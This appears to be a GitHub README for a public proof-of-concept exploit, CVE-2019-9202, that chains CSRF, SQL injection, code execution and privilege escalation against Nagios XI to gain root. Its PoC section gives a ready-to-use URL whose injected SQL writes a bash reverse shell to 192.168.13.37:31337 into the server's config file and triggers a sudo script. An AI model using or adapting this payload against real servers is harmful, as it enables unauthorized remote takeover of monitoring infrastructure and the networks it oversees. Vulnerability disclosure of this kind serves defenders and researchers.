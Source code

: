 # CVE-2019-9202
Nagios IM 2.6 remote code execution exploit: CSRF + SQLi + RCE + LPE --> remote root

## Description
By chaining a Cross-Site Request Forgery (CSRF) / authorization bypass (CVE-2019-9203) it is possible to exploit a Union-based SQL injection (CVE-2019-9204), a Remote Code Execution (RCE) (CVE-2019-9202) and a Local Privilege Escalation (LPE) (CVE-2019-9166), obtaining root privileges on a remote Nagios XI server.

## Requirements
The victim must be authenticated in Nagios XI, afaik lowest privileges are enough.

## PoC
http://nagiosxi.local/nagiosxi/includes/components/nagiosim/nagiosim.php?mode=update&token=&incident_id='union%20select%201,2,3,4,"';echo%20%27print%28\"bash+-i+%3e%26+/dev/tcp/192.168.13.37/31337+0%3e%261+%23\"%29%3b'%3e%3e+/usr/local/nagiosxi/html/config.inc.php%3b+sudo+/usr/local/nagiosxi/scripts/repair_databases.sh%3b%23",6,7,8,'x
